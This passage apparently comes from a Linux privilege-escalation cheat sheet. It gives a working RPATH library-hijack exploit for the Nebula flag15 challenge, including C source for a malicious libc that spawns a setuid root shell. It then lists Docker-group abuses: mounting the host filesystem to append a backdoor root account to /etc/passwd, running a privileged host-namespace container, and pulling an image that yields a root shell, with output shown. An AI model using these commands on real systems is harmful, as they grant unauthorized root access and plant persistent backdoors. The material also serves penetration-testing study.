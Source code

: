 By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Groups

### Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

```bash
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

```powershell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

```powershell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```
